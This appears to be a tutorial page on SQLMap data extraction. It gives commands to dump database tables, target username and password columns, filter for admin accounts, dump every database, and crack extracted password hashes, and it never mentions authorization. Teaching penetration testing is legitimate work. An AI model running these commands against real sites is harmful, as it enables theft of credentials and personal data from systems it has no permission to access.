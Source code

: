 ```yaml
---
title: Data Extraction Techniques
description: Learn how to extract data from databases using SQLMap
---
```


# Data Extraction Techniques

<Tabs defaultValue="overview" className="pt-5 pb-1">
  <TabsList>
    <TabsTrigger value="overview">Overview</TabsTrigger>
    <TabsTrigger value="strategy">Strategy</TabsTrigger>
    <TabsTrigger value="best-practices">Best Practices</TabsTrigger>
  </TabsList>
  <TabsContent value="overview">
    After identifying the database structure, you can extract data from specific tables and columns of interest. SQLMap provides powerful capabilities to retrieve, filter, and process database content efficiently.
  </TabsContent>
  <TabsContent value="strategy">
    An effective data extraction strategy should:
    
    1. **Target specific data** - Focus on relevant tables and columns
    2. **Use filtering** - Apply conditions to limit data retrieval
    3. **Handle pagination** - Extract large datasets in manageable chunks
    4. **Process sensitive data** - Identify and handle password hashes and PII
    5. **Document findings** - Save extracted data in structured formats
  </TabsContent>
  <TabsContent value="best-practices">
    <ul>
      <li>Always specify columns of interest rather than dumping entire tables</li>
      <li>Use conditional extraction to minimize data volume</li>
      <li>Set reasonable limits when extracting from large tables</li>
      <li>Save output to files for later analysis</li>
      <li>Use threading carefully to balance speed and server load</li>
      <li>Consider using CSV output for easier post-processing</li>
    </ul>
  </TabsContent>
</Tabs>

## Data Extraction Techniques

<Stepper>
  <StepperItem title="Basic Table Extraction">
    <div className="grid grid-cols-1 md:grid-cols-2 gap-4">
      <div>
        <h4>Complete Table Dump</h4>
        
        ```bash
        sqlmap -u "http://www.example.com/vuln.php?id=1" \
          -D database_name -T table_name --dump
        ```
        
        <p className="text-sm mt-2">This command retrieves all records from the specified table. For large tables, SQLMap will ask if you want to retrieve all entries or a subset.</p>
      </div>
      <div>
        <h4>When to Use</h4>
        <ul>
          <li>Small to medium-sized tables</li>
          <li>When you need all data from a table</li>
          <li>Initial exploration of table contents</li>
          <li>When combined with output formatting options</li>
        </ul>
      </div>
    </div>
  </StepperItem>
  
  <StepperItem title="Column-Specific Extraction">
    <div className="grid grid-cols-1 md:grid-cols-2 gap-4">
      <div>
        <h4>Targeting Specific Columns</h4>
        
        ```bash
        sqlmap -u "http://www.example.com/vuln.php?id=1" \
          -D database_name -T table_name \
          -C "username,password,email" --dump
        ```
        
        <p className="text-sm mt-2">This extracts only the specified columns, reducing the amount of data retrieved.</p>
      </div>
      <div>
        <h4>Benefits</h4>
        <ul>
          <li>Reduces data transfer volume</li>
          <li>Focuses on relevant information</li>
          <li>Improves extraction speed</li>
          <li>Minimizes impact on target server</li>
          <li>Easier to analyze specific data points</li>
        </ul>
      </div>
    </div>
  </StepperItem>
  
  <StepperItem title="Conditional Extraction">
    <div className="grid grid-cols-1 md:grid-cols-2 gap-4">
      <div>
        <h4>Filtering with WHERE Conditions</h4>
        
        ```bash
        sqlmap -u "http://www.example.com/vuln.php?id=1" \
          -D database_name -T users \
          -C "username,password" --dump \
          --where "username='admin'"
        ```
        
        <p className="text-sm mt-2">This filters data based on specific conditions, similar to a SQL WHERE clause.</p>
      </div>
      <div>
        <h4>Example Conditions</h4>
        <ul>
          <li><code>--where "id>100"</code> - Records with ID greater than 100</li>
          <li><code>--where "role='admin'"</code> - Only admin users</li>
          <li><code>--where "created_date>'2023-01-01'"</code> - Recent records</li>
          <li><code>--where "active=1"</code> - Only active records</li>
          <li><code>--where "email LIKE '%@company.com'"</code> - Company emails</li>
        </ul>
      </div>
    </div>
  </StepperItem>
  
  <StepperItem title="Pagination Techniques">
    <div className="grid grid-cols-1 md:grid-cols-2 gap-4">
      <div>
        <h4>Extracting Record Ranges</h4>
        
        ```bash
        sqlmap -u "http://www.example.com/vuln.php?id=1" \
          -D database_name -T users --dump \
          --start 1 --stop 100
        ```
        
        <p className="text-sm mt-2">This retrieves only records 1 through 100, useful for paginating through large datasets.</p>
      </div>
      <div>
        <h4>Pagination Strategy</h4>
        <ul>
          <li>Use <code>--count</code> first to determine table size</li>
          <li>Extract data in manageable chunks (100-500 records)</li>
          <li>Use sequential ranges: 1-100, 101-200, etc.</li>
          <li>Combine with <code>--where</code> for targeted pagination</li>
          <li>Use <code>--output-dir</code> to save each chunk separately</li>
        </ul>
      </div>
    </div>
  </StepperItem>
</Stepper>

## Advanced Extraction Features

<Tabs defaultValue="bulk-extraction" className="pt-5 pb-1">
  <TabsList>
    <TabsTrigger value="bulk-extraction">Bulk Extraction</TabsTrigger>
    <TabsTrigger value="password-cracking">Password Cracking</TabsTrigger>
    <TabsTrigger value="optimization">Optimization</TabsTrigger>
  </TabsList>
  
  <TabsContent value="bulk-extraction">
    <div className="border-l-4 border-yellow-500 pl-4 py-2 bg-yellow-50 dark:bg-yellow-900/20 mb-4">
      <h4 className="font-bold">Warning: High Impact Operation</h4>
      <p>Dumping all databases can generate massive amounts of data and take a very long time to complete. Use with caution and only when necessary.</p>
    </div>
    
    <h4>Extracting All Databases</h4>
    
    ```bash
    sqlmap -u "http://www.example.com/vuln.php?id=1" --dump-all
    ```
    
    <p className="mt-2">This command extracts data from all tables in all accessible databases. To make this more manageable:</p>
    
    <ul className="mt-2">
      <li>Use <code>--exclude-sysdbs</code> to skip system databases</li>
      <li>Use <code>--dump-all --exclude-dbs=db1,db2</code> to exclude specific databases</li>
      <li>Use <code>--dump-format=CSV</code> for more efficient output</li>
      <li>Consider <code>--fresh-queries</code> to avoid caching issues with large extractions</li>
    </ul>
  </TabsContent>
  
  <TabsContent value="password-cracking">
    <div className="grid grid-cols-1 md:grid-cols-2 gap-4">
      <div>
        <h4>Automatic Password Cracking</h4>
        
        ```bash
        # Basic password cracking
        sqlmap -u "http://www.example.com/vuln.php?id=1" --passwords
        
        # With custom wordlist
        sqlmap -u "http://www.example.com/vuln.php?id=1" \
          --passwords --passwords-file=/path/to/wordlist.txt
        ```
        
        <p className="mt-2">SQLMap will:</p>
        <ol>
          <li>Identify tables that might contain password hashes</li>
          <li>Extract the hashes</li>
          <li>Attempt to crack them using dictionary attack or brute force</li>
        </ol>
      </div>
      <div>
        <h4>Supported Hash Types</h4>
        <ul>
          <li>MD5</li>
          <li>SHA1</li>
          <li>SHA256</li>
          <li>MySQL</li>
          <li>MSSQL</li>
          <li>Oracle</li>
          <li>PostgreSQL</li>
          <li>NTLM</li>
          <li>And many others</li>
        </ul>
        
        <div className="bg-muted p-3 rounded-md mt-4">
          <h5 className="font-bold">Pro Tip</h5>
          <p>Use <code>--common-tables</code> with <code>--passwords</code> to check for common password table names even if they aren't detected in the schema enumeration.</p>
        </div>
      </div>
    </div>
  </TabsContent>
  
  <TabsContent value="optimization">
    <h4>Performance Optimization Techniques</h4>
    
    <div className="grid grid-cols-1 md:grid-cols-2 gap-6 mt-4">
      <div className="border p-4 rounded-md">
        <h5 className="font-bold">Threading</h5>
        <p><code>--threads=N</code> - Use multiple threads to speed up data extraction</p>
        <div className="text-sm mt-2">
          <strong>Example:</strong> <code>sqlmap --threads=10 -u "http://target.com/vuln.php?id=1" --dump</code>
          <p className="mt-1">Start with 5-10 threads and adjust based on performance. Too many threads can overload the server.</p>
        </div>
      </div>
      
      <div className="border p-4 rounded-md">
        <h5 className="font-bold">Output Formatting</h5>
        <p><code>--dump-format=FORMAT</code> - Control output format (CSV, HTML, SQLITE)</p>
        <div className="text-sm mt-2">
          <strong>Example:</strong> <code>sqlmap -u "http://target.com/vuln.php?id=1" --dump --dump-format=CSV</code>
          <p className="mt-1">CSV format is most efficient for large datasets and easier to process later.</p>
        </div>
      </div>
      
      <div className="border p-4 rounded-md">
        <h5 className="font-bold">Binary Data Handling</h5>
        <p><code>--binary-fields</code> and <code>--hex</code> - Handle binary data efficiently</p>
        <div className="text-sm mt-2">
          <strong>Example:</strong> <code>sqlmap -u "http://target.com/vuln.php?id=1" --binary-fields="image,blob" --hex</code>
          <p className="mt-1">Specify binary fields to avoid corruption and use hex encoding for reliable extraction.</p>
        </div>
      </div>
      
      <div className="border p-4 rounded-md">
        <h5 className="font-bold">Batch Mode</h5>
        <p><code>--batch</code> - Non-interactive mode for automated extraction</p>
        <div className="text-sm mt-2">
          <strong>Example:</strong> <code>sqlmap -u "http://target.com/vuln.php?id=1" --dump --batch</code>
          <p className="mt-1">Uses default answers for all prompts, ideal for scripted operations.</p>
        </div>
      </div>
    </div>
  </TabsContent>
</Tabs>

